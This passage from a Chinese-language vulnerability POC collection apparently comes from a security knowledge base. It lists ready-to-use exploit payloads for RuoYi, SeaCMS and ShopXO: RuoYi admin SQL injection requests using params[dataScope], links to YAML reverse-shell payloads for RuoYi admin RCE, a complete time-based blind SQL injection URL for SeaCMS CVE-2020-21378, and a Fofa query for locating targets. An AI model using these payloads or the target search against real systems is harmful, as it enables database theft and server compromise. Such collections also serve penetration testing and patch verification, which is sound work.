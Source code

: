 **4.6.1 后台注入**
- 相关文章
    - [Xcheck Java引擎漏洞挖掘&防护识别](https://mp.weixin.qq.com/s/FPMUVoSqc0Lsf5BQx07ADw)

- POC | Payload | exp
    ```
    POST /ruoyi/system/user/list HTTP/1.1
    POST /ruoyi/system/user/export HTTP/1.1
    POST /ruoyi/system/Allocated/list HTTP/1.1
    POST /ruoyi/system/role/list HTTP/1.1
    POST /ruoyi/system/dept/list HTTP/1.1

    params[dataScope]=a
    ```

**4.6.2 后台RCE**
- 相关文章
    - [记一次若依cms后台getshell](https://bkfish.gitee.io/2021/06/26/%E8%AE%B0%E4%B8%80%E6%AC%A1%E8%8B%A5%E4%BE%9Dcms%E5%90%8E%E5%8F%B0getshell/)
        - [bkfish/yaml-payload-for-Win](https://github.com/bkfish/yaml-payload-for-Win) - 用于windows反弹shell的yaml-payload
    - [若依CMS4.6.0后台RCE](https://www.cnblogs.com/r00tuser/p/14693462.html)
    - [若依CMS后台getshell](http://www.yongsheng.site/2021/08/31/%E8%8B%A5%E4%BE%9DCMS%E5%90%8E%E5%8F%B0getshell/)

- POC | Payload | exp
    - [lz2y/yaml-payload-for-ruoyi](https://github.com/lz2y/yaml-payload-for-ruoyi)

---

### SeaCMS

> Fofa: app="海洋CMS"

**CVE-2020-21378 后台SQL注入漏洞**
- 描述

    攻击者可通过对admin_members_group.php的编辑操作中的id参数利用该漏洞进行SQL注入攻击。

- POC | Payload | exp
    ```
    /admin_members_group.php?action=edit&id=2%20and%20if(mid(user(),1,1)=%27r%27,concat(rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27))%20RLIKE%20%27(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2bcd%27,1)
    ```

---

### ShopXO

**CNVD-2021-15822 任意文件读取漏洞**
- 相关文章
    - [ShopXO download 任意文件读取漏洞 CNVD-2021-15822](https://mp.weixin.qq.com/s/69cDWCDoVXRhehqaHPgYog)

---